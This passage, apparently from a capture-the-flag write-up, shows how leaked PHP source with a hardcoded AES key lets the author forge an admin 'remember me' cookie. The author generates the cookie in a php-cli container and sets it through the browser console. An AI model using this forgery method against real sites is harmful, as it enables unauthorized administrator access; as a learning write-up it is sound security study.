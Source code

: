```php
    }

    return $exp_d_cookie;
}

function encrypt($data, $iv) {
    global $key, $cipher;
    // $ciphertext_raw = openssl_encrypt($data, $cipher, $key, 0, $iv);
    // return base64_encode(ciphertext_raw);
    return openssl_encrypt($data, $cipher, $key, 0, $iv);
}

function decrypt($cookie, $iv) {
    global $key, $cipher;
    // $ciphertext_raw = base64_decode($cookie);
    // return openssl_decrypt($ciphertext_raw, $cipher, $key, 0, $iv);
    return openssl_decrypt($cookie, $cipher, $key, 0, $iv);
}

?>
```

I quickly realised that the functions in this file are the ones responsible for generating and validating "remember me" cookie. Both the key and the cipher used are also there. I had everything I needed to craft myself a cookie.

I started by launching a php-cli container and copied the file content (without the first and last lines) in the console to load the functions :

```bash
$ docker run --rm -it php 
Interactive shell

php > $key = "5UP3R_S3CURE,K3Y";
$cipher="AES-128-CBC";

function generate_remember_me_cookie($username, $admin) {
    $iv = substr(md5(mt_rand()), 0, 16);
    $t = time() + (3600 * 24 * 365);
    $data = $username . "|" . $t . "|" . $admin;
[...]

php > echo generate_remember_me_cookie('admin',1);
RVVCK1I1WFFwN3k3a2lRTW1tN1pBSm5WZHRod2pmS1Y2eEtmVnR4Wmd5RT18OGNjNDY4MWE3ZDVmNTg4Nw==
```

Now all I had to do is set this cookie in my browser to access the admin page :

I browsed to /admin/login.php, opened developper tools (f12), go to console tab and run the command:

```js
document.cookie='remember_me=RVVCK1I1WFFwN3k3a2lRTW1tN1pBSm5WZHRod2pmS1Y2eEtmVnR4Wmd5RT18OGNjNDY4MWE3ZDVmNTg4Nw=='
```
